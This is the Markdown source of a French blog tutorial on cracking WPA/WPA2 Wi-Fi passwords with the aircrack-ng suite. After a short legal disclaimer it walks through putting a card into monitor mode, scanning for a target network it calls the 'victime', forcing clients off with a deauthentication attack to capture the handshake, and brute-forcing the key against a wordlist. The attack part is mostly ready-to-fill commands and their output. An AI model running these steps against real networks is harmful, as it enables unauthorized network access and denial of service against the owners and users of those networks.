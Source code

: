 ```yaml
---
layout: post
title:  "How to use aircrack-ng for bruteforce Wi-fi WPA password"
---
```


# Comment bruteforce un réseaux wifi WPA/WPA2 avec aircrack-ng

# Disclaimer

Tout ceci est a un but purement éducatif, rentré dans un système informatique sans l'authorisation de son propriétaire est interdit par la loi française. 

Bon tutoriel.

# Matériel 

Pour ce tutoriel il faut :

- Être sous un système d'explotation Unix
- Avoir une carte réseaux wifi
- Une [Wordlist](https://weakpass.com/wordlist) (liste de mot contenant des mots de passes)

# Instalation

Vous pouvez retrouvé comment installé aircrack-ng directement sur le répository officiel de aircrack-ng : -> [ici](https://github.com/aircrack-ng/aircrack-ng)​

Ou Suivant votre système d'exploitation :

Debian / Ubuntu / Mint  :
```
sudo apt-get install aircrack-ng
```

Fedora : 
```
sudo dnf install aircrack-ng
```

une fois installé vous pouvez retrouver la suite d'outils aircrack-ng sur votre ordinateur.

(pour cet exemple j'ai écrit le mot "air" et appuyer plusieurs fois sur tab pour que mon terminal affiche tout les outils de la suite, installé sur mon ordinateur)

```
root@yourid:~$ air
airbase-ng              aireplay-ng             airolib-ng
aircrack-ng/            airmon-ng               airserv-ng
airdecap-ng             airodump-ng             airtun-ng
airdecloak-ng           airodump-ng-oui-update  airventriloquist-ng

```
# Managed to Monitor

Par default votre carte wifi est en mode 'Managed', ce qui vous permet de recevoir la connexion internet.

Nous allons donc passer la carte wifi en mode 'Monitor', qui permet d'observé et d'envoyer des signaux.

Pour ceci il faut tout d'abord identifier le nom de ça carte wifi, en utilisant la commande iwconfig

```
root@yourid:~$ iwconfig
wlp00s0   IEEE 802.11  ESSID:"Wifi-ESSID"  
          Mode:Managed  Frequency:5.18 GHz  Access Point: XX:XX:XX:XX:XX:XX   
          Bit Rate=666.0 Mb/s   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=70/70  Signal level=-40 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:37  Invalid misc:2628   Missed beacon:0

```
Le nom de la carte wifi est donc : *wlp00s0*

Nous allons utiliser l'outil 'airmon-ng' qui permet justement de changer la carte wifi en mode monitor

```
root@yourid:~$ airmon-ng start [nom de la carte wifi]
```
pro tips: il est possible que cette commande ne marche pas, plusieurs possibilités: 
 - le message : Run it as root, s'affiche il faut donc avoir les droits super utilisateur.
 - un message d'aide s'affiche : vous n'avez surment pas mis le bon nom de carte wifi
 - un message d'erreur s'affiche : il se peut que des processus peuvent perturber l'opération, dans ce cas il faut faire la commande *airmong-ng check kill*
 - ça ne marche pas, il est possible que votre carte wifi n'est pas compatible avec le mode monitor

une fois cet étape terminer, vous n'avez plus de connexion internet, c'est normal.

Nous allons vérifier si la carte wifi est bien passé en mode monitor:

```
root@yourid:~$ iwconfig
wlp00s0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=0 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

Comme vous l'observez le nom de la carte wifi à changer pour rajouter 'mon' derniere son nom.

# Scanner et trouver une victime.

Nous allons scanner les réseaux wifi au alentours et utilisé l'outil 'airodump-ng', qui est un outil de capture de paquet wifi.

```
root@yourid:~$ airodump-ng [nom de la carte wifi]
```
*attention de pas oublier le "mon" derriere le nom de votre catre wi fi :)*

<img src="../../../assets/airodump.png" />

*Sur cet image mon nom de réseaux wifi est IEWYUAH*

Plusieurs information sont afficher, tel que :
- BSSID (Basic Service Set Identifiers) : qui correspond à l'addresse MAC du routeur.
- PWR (Power) : la puissance du signal
- #Data : les données transmise
- #/s : S pour speed la rapidité de l'envoie des données.
- CH : pour le channel
- ENC : pour encryption, donne l'info sur le protocole de chiffrement.
- AUTH : information sur le type d'authentification.
- ESSID (Electronic Service Set Identifiers) : qui correspond aux nom du routeur.

```
root@yourid:~$ airodump-ng –c[id chanell de votre victime] -w [nom du fichier de capture (qui va être crée)] -d [BSSID de votre victime] [nom de votre carte wifi]
```
pro tips: il est possible que un message d'erreur s'affiche, il est surment du au channel de votre carte wifi. 
Comme vous pouvez le voir sur l'image si dessus en haut a gauche, au dessus du BSSID, il y a écrit 'CH 1', votre carte wifi change de chan. 
Il ne faut pas hésiter a relancer la commande plusieurs fois avant que celle ci marche !

<img src="../../../assets/airodump-cpt.png" />

*STATION correspond à l'adresse MAC de la personne connecté*

Attention à ne partir de ce moment, vous êtes en train d'enregister des captures réseaux sur votre ordinateur, il ne faut donc pas fermée votre terminal sous peine de stopper la capture réseaux. 


# Get the handshake

Pour pouvoir réussir a intercepté le mot de passe wifi de votre victime, il faut capturer le handshake. 
Le Handshake est l'échange de validation entre le client et le routeur.

Nous allons utilisez airplay-ng pour injecter des paquets a une ou plusieurs machines sur le réseaux pour les forcer à se déconnecter (Attaque par déni de service).

```
root@yourid:~$ aireplay-ng --deauth 0 –a [BSSID de votre victime] -c [Adress MAC STATION] [nom de votre carte wifi]​
```
Quand la machine victime va se reconnecter aux réseaux automatiquement vous allez récuperer le handshake.
Une fois l'attaque lancé vous pouvez la stopper quand vous le désirez.

# Le Bruteforce !

Une fois le handshake capturé, vous pouvez remettre votre carte wifi en mode managed.​

```
root@yourid:~$ airmon-ng stop [nom de votre carte wifi]
```

si vous refaite la commande *iwconfig*, vous allez remarquer que votre carte wifi à repris son nom initial.

Pour la dernière étape nous allons essayer de comparer le hash du handshake aux hash d'une liste de mot de passe, si cette opération réussie nous avons le mot de passe du wifi victims.​

```
root@yourid:~$ aircrack-ng [nom du paquet réseaux capture (files.cap)] -w [wordlist]
```

Si le mot de passe est présent dans la wordlist : 
Dans mon cas, j'ai testé en rajouter le mot de passes a la fin d'une wordlist de 7000 mots de passes, cela ma pris moins de 5 secondes pour le trouver.

<img src="../../../assets/aircrack-get-psswd.png" />

Dans le cas contraire :

<img src="../../../assets/aircrack-fail.png" />

# Conclusion 

Voici une méthode pour crackez les mots de passes wifi, en informatique rien n'est magique.


# Remerciement

Merci beaucoup d'avoir lu mon tutoriel, j'éspere que ça vous à plus.

Si vous voyez des fautes d'orthographe, ou autre, n'hésitez pas à m'envoyer un mail avec la correction 
ou faire un pull requests :smiley:

